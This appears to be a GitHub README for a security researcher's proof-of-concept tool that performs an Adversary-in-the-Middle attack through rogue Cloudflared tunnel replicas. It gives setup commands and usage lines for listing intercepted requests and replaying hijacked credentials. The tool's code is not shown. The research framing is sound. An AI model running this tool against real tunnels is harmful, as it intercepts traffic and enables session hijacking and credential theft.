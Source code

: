 # cloudflared_aitm_poc

This repository contains a Proof of Concept (PoC) for an **Adversary-in-the-Middle (AiTM)** attack exploiting **Cloudflared replicas**. For a detailed explanation of the attack and its implications, read the full blog post:

👉 [When Replicas Go Rogue - A Deep Dive into Cloudflared Exploitation Scenarios](https://y4nush.com/when-replicas-go-rogue-a-deep-dive-into-cloudflared-replicas-exploitation-scenarios/)

## Usage

Clone the repository:
```bash
git clone https://github.com/Y4nush/cloudflared_aitm_poc.git
cd cloudflared_aitm_poc
```

Run the installation script (⚠️ Warning: Running this will automatically create and run a tunnel, which could cause availability issues):

```bash
sudo bash install.sh
Please enter your Cloudflare Tunnel token: eyJ......
```
## Commands
```bash
-------------------------------------
Available Commands and Their Usage:
-------------------------------------
sudo systemctl stop cloudflared.service && sudo pkill -f aitm.py  # Stops the aitm.py server and the tunnel.

sudo bash install.sh --run  # Runs aitm.py with the previous arguments.

python3 aitm/hijack.py list # Lists all intercepted requests.

python3 aitm/hijack.py poc <session number> # Sends a GET request with hijacked credentials as a PoC.
```
## Environment
Tested on Ubuntu 22.04.5 LTS

<img src="https://github.com/user-attachments/assets/abf5c575-d493-4820-b85b-45e8cb0162fc" alt="image" width="75"/>

